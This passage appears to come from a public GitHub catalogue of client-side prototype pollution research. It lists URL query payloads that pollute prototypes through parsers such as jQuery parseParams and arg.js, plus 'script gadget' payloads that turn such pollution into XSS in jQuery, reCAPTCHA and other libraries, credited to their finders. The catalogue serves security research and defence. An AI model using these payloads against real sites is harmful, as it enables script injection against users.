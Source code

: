 | [jQuery parseParams](/pp/jquery-parseparam.md)                             | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             |                                             | [POSIX](https://twitter.com/po6ix)               |
| [php.js parse_str](/pp/parse_str.md)                                       | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [POSIX](https://twitter.com/po6ix)               |
| [arg.js](/pp/arg-js.md)                                                    | `?__proto__[test]=test`<br>`?__proto__.test=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|  | [POSIX](https://twitter.com/po6ix)               |
| [davis.js](/pp/davis-js.md)                                                | `?__proto__[test]=test`                                                  |                                             | [POSIX](https://twitter.com/po6ix)               |
| [Component querystring](/pp/component_querystring.md)                      | `?__proto__[NUMBER]=test`<br>`?__proto__[123]=test`                      |                                             | [Masato Kinugawa](https://twitter.com/kinugawamasato)|
| [Aurelia path](/pp/aurelia.md)                                             | `?__proto__[test]=test`                                                  | [[1]](https://github.com/aurelia/path/issues/44) | [s1r1us](https://twitter.com/S1r1u5_)            |
| [analytics-utils < 1.0.3](/pp/analytics-utils.md)                          | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          | [[1]](https://github.com/DavidWells/analytics/issues/204) | [alexdaviestray](https://github.com/alexdaviestray) |

## Script Gadgets

| Name                                                    | Payload                                                                       | Impact            | Refs                                              | Found by                                            |
|---------------------------------------------------------|-------------------------------------------------------------------------------|-------------------|---------------------------------------------------|-----------------------------------------------------|
| [Wistia Embedded Video](/gadgets/wistia-video.md)       | `?__proto__[innerHTML]=<img/src/onerror%3dalert(1)>`                          | XSS               | [[1]](https://hackerone.com/reports/986386)       | [William Bowling](https://twitter.com/wcbowling)    |
| [jQuery $.get](/gadgets/jquery.md#get-jquery-all-versions) | `?__proto__[context]=<img/src/onerror%3dalert(1)>`<br>`&__proto__[jquery]=x`| XSS              |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md#get-jquery--300)<br>Boolean.prototype | `?__proto__[url][]=data:,alert(1)//`<br>`&__proto__[dataType]=script`  | XSS               |                                 | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md#get-jquery--300-1)<br>Boolean.prototype | `?__proto__[url]=data:,alert(1)//`<br>`&__proto__[dataType]=script`<br>`&__proto__[crossDomain]=`| XSS |                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $.getScript >= 3.4.0](/gadgets/jquery.md#getscript-jquery--340) | `?__proto__[src][]=data:,alert(1)//`                          | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $.getScript 3.0.0 - 3.3.1](/gadgets/jquery.md#getscript-jquery-300---331)<br>Boolean.prototype | `?__proto__[url]=data:,alert(1)//`                  | XSS               |                              | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $(html)](/gadgets/jquery.md#html-jquery-all-versions)  | `?__proto__[div][0]=1`<br>`&__proto__[div][1]=<img/src/onerror%3dalert(1)>`| XSS    |                                                          | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $(x).off](/gadgets/jquery.md#xoff-jquery-all-versions)<br>String.prototype | `?__proto__[preventDefault]=x`<br>`&__proto__[handleObj]=x`<br>`&__proto__[delegateTarget]=<img/src/onerror%3dalert(1)>`| XSS    |             | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $(x).attr](/gadgets/jquery.md#xattr-jquery--180) | `?__proto__[OnError]=alert(1)`<br>`&__proto__[SRC]=fakeimagewontload.jpg`    | XSS               | [[1]](https://joaxcar.com/blog/2024/01/26/hunting-for-prototype-pollution-gadgets-in-jquery-intigriti-0124-challenge/) [[2]](https://mizu.re/post/intigriti-january-2024-xss-challenge)                                                  | [Johan Carlsson](https://twitter.com/joaxcar)      |
| [jQuery <span>$</span>(x).on, <span>$</span>(x).submit](/gadgets/jquery.md#xon-xsubmit-jquery--190) | `?__proto__[handler][]=x`<br>`&__proto__[selector][]=<img/src/onerror%3Dalert(1)>`<br>`&__proto__[focus]=x`<br>`&__proto__[needsContext]=x`    | XSS               | [[1]](https://joaxcar.com/blog/2024/01/26/hunting-for-prototype-pollution-gadgets-in-jquery-intigriti-0124-challenge/)                                                  | [Johan Carlsson](https://twitter.com/joaxcar)      |
| [Google reCAPTCHA](/gadgets/recaptcha.md)               | `?__proto__[srcdoc][]=<script>alert(1)</script>`                              | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Twitter Universal Website Tag](/gadgets/twitter-uwt.md) (**Fixed**)| `?__proto__[hif][]=javascript:alert(1)`                                       | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |